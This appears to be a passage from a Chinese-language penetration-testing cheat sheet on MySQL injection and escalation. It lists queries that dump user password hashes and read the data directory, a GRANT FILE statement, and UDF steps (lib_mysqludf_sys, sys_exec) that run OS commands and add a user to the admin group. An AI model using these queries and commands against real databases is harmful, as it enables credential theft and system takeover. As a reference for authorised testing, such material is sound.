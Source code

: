 获取数据库文件路径：

> select @@datadir

列出用户的账号密码哈希：

> select host, user, password from mysql.user

查询所有内容通过一个字符串列出：

> select group_concat(name separator %27,%27) from users
>
> select group_concat(cast(uid as char(50)) separator %27,%27) from users

将文件的权限赋予指定用户

> GRANT FILE ON *.* TO ''@'localhost'

扩展学习：

> http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

#### 如何执行系统命令

> http://www.iodigitalsec.com/mysql-root-to-system-root-with-udf-for-windows-and-linux/

1、检查文件 /usr/lib/lib_mysqludf_sys.so 是否存在：

> whereis lib_mysqludf_sys.so

2、如果存在：

> mysql -u root -p ... mysql> select sys_exec('');

`sys_exec` 执行完返回退出状态

`sys_eval` 返回标准输出

3、增加用户到管理员组：

> mysql> select sys_exec('usermod -a -G admin <user>');

4、如果用户有权限，则复制文件： `lib_mysqludf_sys.so` 到 /usr/lib/ 目录下

5、如何编译 lib_mysqludf_sys.so ：

> git clone https://github.com/mysqludf/lib_mysqludf_sys
>
> gcc -fPIC -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o ./lib_mysqludf_sys.so

### SQL 注入手册

下面是关于下文中数据库对应的字母表：

![img](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcvlqNqemtmU8gWoAfOu05d8kzHjr1ojv7H5nS3EAuOhxPNZeibyKz8P47a7nIFOFmicThS14iagEZFw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

##### Examples：

- (MS) 表示: MySQL 和 SQL Server 数据库通常情况下
- (M*S) 表示 : MySQL 的某些特定情况以及 SQL Server 的一般情况

#### 参考语法、注入技巧
